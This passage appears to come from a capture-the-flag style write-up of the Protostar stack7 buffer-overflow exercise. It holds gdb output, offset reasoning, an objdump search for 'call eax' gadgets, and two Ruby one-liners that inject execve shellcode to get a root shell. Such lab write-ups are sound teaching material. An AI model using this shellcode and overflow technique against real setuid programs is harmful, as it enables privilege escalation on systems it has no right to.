 gs             0x33	0x33
gdb> x /s $eax
0x804a008:	 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9"
{% endcodeblock %}

The offset for return address is again 80 (0x37634136 in `pattern_offset`) and
`EAX` with stored `0x804a008` value points to the beginning of our buffer,
where we still can jump.

This is because `strdup()` allocates memory on heap and returns this address:
{% codeblock %}
man 3 strdup

  The strdup() function returns a pointer to a new string which is a duplicate
  of the string s.  Memory for the new string  is obtained with malloc(3), and
  can be freed with free(3).
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ (ruby -e 'sc="\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; print sc + "X" * (80 - sc.length) + [0x0804a008].pack("V")'; cat -) | /opt/protostar/bin/stack7 
input path please: 
got path j1X̀?É?jFX̀1?1?Phn/shh//bi??PS??
                                       ̀XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX?
id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}

Instead of pointing to the allocated buffer address, it is more portable to
find `call eax` instruction addresses in code and use one of them.

{% codeblock %}
user@protostar:~$ objdump -M intel -D /opt/protostar/bin/stack7 | grep 'call.*eax$'
 80484bf:	ff d0                	call   eax
 80485eb:	ff d0                	call   eax
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ (ruby -e 'sc="\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; print sc + "X" * (80 - sc.length) + [0x080484bf].pack("V")'; cat -) | /opt/protostar/bin/stack7 
input path please: 
got path j1X̀?É?jFX̀1?1?Phn/shh//bi??PS??
                                       ̀XXXXXXXXXXXXXXXXXXXXXXXXX?XXXXXXXXXXXX??
id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
{% endcodeblock %}


